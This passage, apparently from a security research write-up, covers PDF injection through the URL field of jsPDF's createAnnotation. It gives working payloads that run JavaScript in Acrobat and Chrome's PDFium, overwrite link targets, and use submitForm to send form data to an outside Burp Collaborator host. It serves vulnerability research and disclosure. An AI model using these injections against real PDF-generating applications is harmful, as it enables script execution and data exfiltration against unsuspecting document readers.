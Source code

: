 When you close the PDF, this annotation will fire:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/) >> >>``\
``<</Subtype /Screen /Rect [0 0 900 900] /AA <</PC <</S/JavaScript/JS(app.alert(1))>>/(`});``\
`doc.text(20, 20, 'Close me');`

### Chrome

I've talked a lot about Acrobat but what about PDFium (Chrome's PDF reader)? Chrome is tricky; the attack surface is much smaller as its JavaScript support is more limited than Acrobat's. The first thing I noticed was that JavaScript wasn't being executed in annotations at all, so my proof of concepts weren't working. In order to get the vectors working in Chrome, I needed to at least execute JavaScript inside annotations. First though, I decided to try and overwrite a URL in an annotation. This was pretty easy. I could use the base injection I came up with before and simply inject another action with a URI entry that would overwrite the existing URL:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/blah)>>/A<</S/URI/URI(https://portswigger.net)``\
``/Type/Action>>/F 0>>(`});``\
`doc.text(20, 20, 'Test text');`

This would navigate to portswigger.net when clicked. Then I moved on and tried different injections to call JavaScript, but this would fail every time. I thought it was impossible to do. I took a step back and tried to manually construct an entire PDF that would call JavaScript from a click in Chrome without an injection. When using an AcroForm button, Chrome would allow JavaScript execution, but the problem was it required references to parts of the PDF. I managed to craft an injection that would execute JavaScript from a click on JSPDF:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/) >> >> <</BS<</S/B/W 0>>/Type/Annot/MK<</BG[ 0.825 0.8275 0.8275]/CA(Submit)>>/Rect [ 72 697.8898 144 676.2897]/Subtype/Widget/AP<</N <</Type/XObject/BBox[ 0 0 72 21.6]/Subtype/Form>>>>/Parent <</Kids[ 3 0 R]/Ff 65536/FT/Btn/T(test)>>/H/P/A<</S/JavaScript/JS(app.alert(1))/Type/Action/F 4/DA(blah`});``\
`doc.text(20, 20, 'Click me test');`

As you can see, the above vector requires knowledge of the PDF structure. \[ 3 0 R] refers to a specific PDF object and if we were doing a blind PDF injection attack, we wouldn't know the structure of it. Still, the next stage is to try a form submission. We can use the submitForm function for this, and because the annotation requires a click, Chrome will allow it:`/) >> >> <</BS<</S/B/W 0>>/Type/Annot/MK<</BG[ 0.0 813.54 566.93 -298.27]/CA(Submit)>>/Rect [ 72 697.8898 144 676.2897]/Subtype/Widget/AP<</N <</Type/XObject/BBox[ 0 0 72 21.6]/Subtype/Form>>>>/Parent <</Kids[ 3 0 R]/Ff 65536/FT/Btn/T(test)>>/H/P/A<</S/JavaScript/JS(app.alert(1);this.submitForm('https://your-id.burpcollaborator.net'))/Type/Action/F 4/DA(blah`

This works, but it's messy and requires knowledge of the PDF structure. We can reduce it a lot and remove the reliance on the PDF structure:`#) >> >> <</BS<</S/B/W 0>>/Type/Annot/MK<</BG[ 0 0 889 792]/CA(Submit)>>/Rect [ 0 0 889 792]/Subtype/Widget/AP<</N <</Type/XObject/Subtype/Form>>>>/Parent <</Kids[ ]/Ff 65536/FT/Btn/T(test)>>/H/P/A<</S/JavaScript/JS(`\
    `app.alert(1)`\
    `)/Type/Action/F 4/DA(blah`\
``

There's still some code we can remove:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)>>>><</Type/Annot/Rect[ 0 0 900 900]/Subtype/Widget/Parent<</FT/Btn/T(A)>>/A<</S/JavaScript/JS(app.alert(1))/(`});``\
`doc.text(20, 20, 'Test text');`\
``
